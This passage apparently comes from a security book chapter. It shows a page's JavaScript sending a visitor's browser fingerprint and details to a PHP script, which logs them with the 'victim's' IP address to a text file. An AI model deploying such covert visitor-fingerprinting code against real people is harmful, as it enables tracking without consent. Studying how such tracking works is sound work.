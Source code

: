 ```html
            var xmlhttp = new XMLHttpRequest();
            xmlhttp.open("POST", "/fp/js.php");
            xmlhttp.setRequestHeader("Content-Type", "application/txt");
            xmlhttp.send(clientfp + timeString + details);
        });
    </script>
</body>
</html>
```

Here is the `js.php` script that will processes the POST request:

```php
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n";
file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true),
FILE_APPEND | LOCK_EX);
?>
```

The PHP code first extracts the client IP address from the `$_SERVER` array. Then the IP address is concatenated to the text string received from the JavaScript POST request and written to the `fingerprint.txt` file

If the victim visits the `fingerprint2server.html` page, the `fingerprint.txt` file will be created

![](./img/Chapter13/4.png)

![](./img/Chapter13/5.png)
